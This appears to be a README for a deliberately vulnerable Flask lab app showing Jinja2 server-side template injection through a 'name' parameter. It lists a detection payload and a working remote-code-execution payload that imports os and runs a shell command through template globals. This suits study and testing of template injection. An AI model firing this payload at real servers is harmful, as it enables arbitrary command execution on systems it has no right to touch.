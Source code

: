 # Jinja2 SSTI

name parameter is vulnerable to SSTI. Run with
```
python3 flask_jinja.py
```

# Payloads
for detection
```
{{7*7}}
```

for RCE
```
{{request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()}}
```

# Credit
Idea from https://gusralph.info/jinja2-ssti-research/
